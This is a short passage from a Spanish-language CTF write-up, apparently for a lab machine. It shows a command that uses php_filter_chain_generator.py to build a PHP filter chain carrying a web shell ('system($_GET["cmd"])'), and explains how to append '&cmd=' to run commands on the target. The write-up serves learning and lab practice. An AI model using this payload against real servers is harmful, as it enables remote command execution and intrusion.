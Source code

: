 ![](/assets/img/quick/8.png)

Ahora podemos hacer lo mismo que en la intrucion intencionada, crear un payload que haga uso de **system** para ejecutar lo que recibe por el parametro **cmd** a traves de GET:

```ruby
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'
```

Al payload generado solamente al final le agregamos el **&cmd=** cuando lo ingresemos en la web

![](/assets/img/quick/9.png)

Eso ha sido todo, gracias por leer ❤